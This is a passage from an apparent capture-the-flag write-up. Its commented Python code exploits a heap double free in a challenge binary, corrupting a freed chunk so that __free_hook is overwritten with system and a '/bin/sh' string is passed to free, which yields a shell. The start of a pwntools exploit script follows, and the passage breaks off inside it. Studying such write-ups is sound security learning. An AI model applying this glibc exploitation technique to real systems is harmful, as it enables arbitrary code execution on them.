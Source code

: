 ***

This is the code we wrote to accomplish it:
```python
    m1_addr = heap + 14800
    idx_for_m1_addr = (0x16e0 / 8)
    idx_for_nulls = idx_for_m1_addr + 1

    # This node is used to keep the pointer to m1 and a pointer to a 'null' node (aka no parent, left or right)
    create_node(s, m1_addr, pointer_to_nulls)

    # Create m1, the node we will want to free twice
    m1 = create_node(s)

    # Free m1, the first time
    del_node(s, m1)

    # Select m1's addr and free it again
    select_node(s, idx_for_m1_addr)
    del_node(s, 0)

    # m2 will get the same addr as m1.
    # Corrupt: m1->next == `__free_hook`
    m2 = create_node(s, free_hook, 0)

    select_node(s, idx_for_nulls)
    m3 = create_node(s)

    # m4 will get the addr of `__free_hook`. Write `system` there!
    m4 = create_node(s, system, 0)

    # Creats a node pointing to "/bin/sh\x00"
    create_node(s, u64("/bin/sh\x00"), 0)

    # Adding a second node with the same val will fail and result in `free(node_2)`
    # We made `__free_hook` point to system and so we get `system("/bin/sh\x00")`
    create_node(s, u64("/bin/sh\x00"), 0)
```

## Exploit
```python
#!/usr/bin/python2
# -*- coding: utf-8 -*-
from pwn import *
import sys

LOCAL = True
WAIT = False
PRELOAD = False
if "remote" in sys.argv:
    LOCAL = False
elif "wait" in sys.argv:
    WAIT = True
if "preload" in sys.argv:
    PRELOAD = True

elf = None
libc = None

def get_conn():
    global elf
    global libc

```